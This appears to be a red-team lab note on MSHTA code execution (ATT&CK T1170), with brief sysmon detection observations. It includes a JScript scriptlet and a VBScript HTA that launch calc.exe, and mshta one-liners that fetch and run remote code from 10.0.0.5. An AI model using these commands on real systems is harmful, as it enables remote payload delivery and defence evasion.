



# T1170: MSHTA Code Execution



## Code



```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```



## Execution

```bash
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```

## Observations

As expected, calc is spawned by mshta. Also, mhsta and cmd exit almost immediately after invoking the calc.exe.


Look at sysmon for mshta establishing network connections:



Also, suspicious commandlines:



## Additionally

The hta file can be invoked like so:

```bash
mshta.exe http://10.0.0.5/m.hta
```


or by navigating to the file itself, launching it and clicking run:





```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```




